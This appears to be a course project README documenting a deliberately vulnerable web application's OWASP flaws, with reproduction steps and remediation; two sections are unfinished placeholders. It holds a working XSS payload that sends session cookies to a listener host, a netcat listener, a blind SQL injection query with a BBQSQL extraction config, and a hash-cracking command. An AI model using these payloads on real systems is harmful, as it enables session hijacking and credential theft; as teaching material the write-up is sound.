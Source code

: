 # Cyber Security Base  - Project I

This is my solution for the first project of the [Cyber Security Base course](https://cybersecuritybase.github.io/). In this project our task is to create a web application that has at least five different flaws from the OWASP top ten list.

## Setup info
TODO

## Flaw 1 - Broken Authentication and Session Management
**OWASP description**: [A1-Injection](https://www.owasp.org/index.php/Top_10_2013-A2-Broken_Authentication_and_Session_Management)

**Issue**: [Session fixation](https://www.owasp.org/index.php/Session_fixation)

**Steps to reproduce**:

1. s1
2. s2
3. s3

**Remediation**:


## Flaw 2 - Cross-Site Scripting
**OWASP description**: [A3-Cross-Site Scripting](https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS))

**Issue**: [Cross-Site Scripting](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))

**Steps to reproduce**:

1. Go to the sign up form to create a new user.
2. In the address field insert:
    ```
    <script>document.write('<img src="http://192.168.0.117:1234/' + document.cookie + '">')</script>
    ```
3. Start a netcat server using the command `nc -lp 1234` on the specified host. When a user opens the attendees page, a request is sent to this server:

    ![Result of XSS](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/XSS_session_cookie.png)
4. We now can take over the session of this user by changing our own session cookie using `document.cookie="JSESSIONID=E0ED84B16865028DF09E522DC8B8DDC8"` in the browser console. This way we are able to steal the session of the admin user when this user logs in.

**Remediation**:

* Escape user input when showing this on a page.
* Make sure that the HTTPOnly cookie flag is set for the session ID.


## Flaw 3 - Cross-Site Request Forgery
**OWASP description**: [A8-Cross-Site Request Forgery](https://www.owasp.org/index.php/Top_10_2013-A8-Cross-Site_Request_Forgery_(CSRF))

**Issue**: [Cross-Site Request Forgery](https://www.owasp.org/index.php/Cross-Site_Request_Forgery)

**Steps to reproduce**:

1. s1
2. s2
3. s3

**Remediation**:


## Flaw 4 - Injection
**OWASP description**: [A1-Injection](https://www.owasp.org/index.php/Top_10_2013-A1-Injection)

**Issue**: [Blind SQL injection](https://www.owasp.org/index.php/Blind_SQL_Injection)

**Steps to reproduce**:

1. Login to the web application.
2. Go to the attendees page.
3. Insert `nothing' OR '1'='1` in the search field. After applying this filter, all items are still shown. This indicates that we can exploit this using SQL injection. We will have to use a blind SQL injection as the result of the query is not printed. I chose for a content-based blind SQL injection, but a time-based injection should also work.
4. We can read the data from the database by doing a binary search on the ASCII value of each character in the database and iterating over all the characters. The base query for this method is:
    ```
    1' OR (ASCII(SUBSTRING(SELECT CONCAT(NAME,':',PASSWORD) FROM ACCOUNT LIMIT 1 OFFSET 1, 1, 1)) > 63) --
    ```

    If the list of attendees is shown, the query evaluated to true and the ASCII value first character in the Name column for the first row in the Account table is larger than 63. If no attendees are shown, then the query evaluated to false.
5. We can now execute this base query using the tool [BBQSQL](https://github.com/Neohapsis/bbqsql) with the following configuration file:
    ```
    [Request Config]
    url = http://192.168.0.185:8080/attendees
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    cookies = {'JSESSIONID': '19EE58D182C7FE01DC0312AD14172858'}
    data = searchString=${query}
    method = post

    [HTTP Config]
    query = 1' OR (ASCII(SUBSTRING(SELECT CONCAT(NAME,':',PASSWORD) FROM ACCOUNT LIMIT 1 OFFSET ${row_index:1}, ${char_index:1}, 1)) ${comparator:>} ${char_val:0}) --
    csv_output_file = bbqsql_output.csv
    technique = binary_search
    comparison_attr = size
    concurrency = 30
    ```
6. This tool gives the following output:

    ![Result of BBQSQL](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/SQLI_result.png)

**Remediation**:

* [Parameterized queries](https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet#Defense_Option_1:_Prepared_Statements_.28with_Parameterized_Queries.29) can be used as a remediation for this SQL injection.


## Flaw 5 - Sensitive Data Exposure
**OWASP description**: [A6-Sensitive Data Exposure](https://www.owasp.org/index.php/Top_10_2013-A6-Sensitive_Data_Exposure)

**Issue**: Weak cryptographic algorithm and unsalted hashes used

**Steps to reproduce**:

1. In the previous flaw, we found the user names and hashes of the passwords. Using an [online tool](https://www.onlinehashcrack.com/hash-identification.php) to identify the hash type, we can see that these hashes are probably MD5 hashes.
2. We can try to crack the hashes using the tool 'john the ripper' with the command `john -format=raw-MD5 bbqsql_output.csv`:

    ![Result of john](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/SQLI_result.png)

    We could also check an [online reverse lookup](http://md5.gromweb.com/) for the MD5 hashes:

    ![Result of reverse lookup](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/MD5_reverse_lookup.png)

**Remediation**:

* Select a hashing algorithm that has no known vulnerabilities. For example the standard BCrypt algorithm in the Spring framework. The implementation in Spring also uses a random salt per user.
